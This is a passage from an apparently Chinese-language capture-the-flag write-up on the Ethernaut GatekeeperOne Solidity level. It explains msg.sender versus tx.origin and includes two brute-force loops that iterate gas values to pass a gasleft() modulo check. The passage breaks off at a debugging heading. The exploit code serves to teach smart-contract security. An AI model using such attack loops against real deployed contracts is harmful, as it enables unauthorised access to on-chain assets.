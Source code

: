 这里需要我们理解msg.sender和tx.origin的区别。意思是要求：我们不可以直接调用，需要写一个合约进行调用

![](https://moe.photo/images/2022/12/24/-2022-12-24-010131.jpg)

### gateTwo

```solidity
 modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }
```

`gasleft()`：是solidity的内置方法，方法返回此次交易我们还剩余多少gas。returns (uint256)

意思是，当程序执行到`require(gasleft() % 8191 == 0)`这一步时，交易所剩的gas取模8191的值为0，那么我们有两个思路来通过这个修饰器：暴力尝试和通过debug来查看gas消耗情况

#### 暴力尝试

gas的剩余量取模8191的结果为0，那么暴力尝试的可能性就只有8191种，那么我们可以做一个循环，从0gas开始到8191gas进行调用方法，总有一次可以通过此修饰器，很有意思的是，网络上有大佬优化了这个暴力尝试的过程（attack方法是网上大佬的思路，attack_是真正的暴力破解）

【网络版本】

```solidity
// 为什么这么写呢？因为有玩家通过测试，本关这里的gas大概在210次
// 然后他取了一个缓冲值60上下浮动，即：210加减60=>150~270
// 那么，他就打算从gas=150开始循环
// 最多到270次就收手，这就是120的由来：270-150=120
for (uint256 i = 0; i < 120; i++) {
          (bool result,) = address(gatekeeperOne).call{gas:i + 150 + 8191 * 3}(abi.encodeWithSignature("enter(bytes8)",key));
          if (result) {
              break;
          }
      }
```

【未知情况，真正暴力破解版本】

```solidity
for (uint256 i = 0; i < 8191; i++) {
          // 乘3原因：气体最低限制21000，低于这个值就很可能call调用失败。因此*3就大于21000，你可以乘任何>=3的值
          // i从0开始，不断尝试，理论上最多有8191种可能，肯定能试出来。
          // 一旦试出来，result返回true，就可以退出循环了
          (bool result,) = address(gatekeeperOne).call{gas:i + 8191 * 3}(abi.encodeWithSignature("enter(bytes8)",key));
          if (result) {
              break;
          }
      }
```

#### debug查看
